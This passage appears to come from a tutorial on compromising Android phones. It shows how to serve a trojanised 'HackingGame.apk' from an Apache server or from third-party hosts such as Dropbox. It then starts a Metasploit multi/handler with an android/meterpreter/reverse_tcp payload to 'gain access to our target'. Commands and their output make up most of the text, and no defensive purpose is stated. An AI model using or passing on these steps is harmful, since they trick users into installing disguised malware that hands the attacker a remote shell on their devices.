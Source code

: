 Now we will start our Apache2 Server so that other devices may connect to our computer to download our "Hacking Game".  
To do this, we can simply type in;  
```
$ sudo service apache2 start  
  
# To check the status;  
$ sudo service apache2 status
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; preset: disabled)
     Active: active (running) since Sat 2023-01-07 14:01:53 EST; 5s ago
       Docs: https://httpd.apache.org/docs/2.4/
    Process: 35849 ExecStart=/usr/sbin/apachectl start (code=exited, status=0/SUCCESS)
   Main PID: 35866 (apache2)
      Tasks: 6 (limit: 9019)
     Memory: 19.4M
        CPU: 77ms
     CGroup: /system.slice/apache2.service
             ├─35866 /usr/sbin/apache2 -k start
             ├─35868 /usr/sbin/apache2 -k start
             ├─35869 /usr/sbin/apache2 -k start
             ├─35870 /usr/sbin/apache2 -k start
             ├─35871 /usr/sbin/apache2 -k start
             └─35872 /usr/sbin/apache2 -k start

Jan 07 14:01:52 CryptoH4ck3r systemd[1]: Starting The Apache HTTP Server...
Jan 07 14:01:53 CryptoH4ck3r apachectl[35865]: AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 127.0.1.1. Set the 'ServerName' directive globally to suppress this message
Jan 07 14:01:53 CryptoH4ck3r systemd[1]: Started The Apache HTTP Server.

```
  
Now, you can utilize your own web server, as we did above, or you can host the HackingGame.apk file on a 3rd party server such as Google, Dropbox, Microsoft, etc.  
## Setting Up MSFConsole  
With everything setup & working properly, we initiate our MSFConsole. This will allow us use the multi-handler exploit in order to gain access to our target!  
Now you can simply type the following in;  
```
$ msfconsole  
  
> use multi/handler  
  
> set PAYLOAD android/meterpreter/reverse_tcp
  
> show options  
Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (android/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

```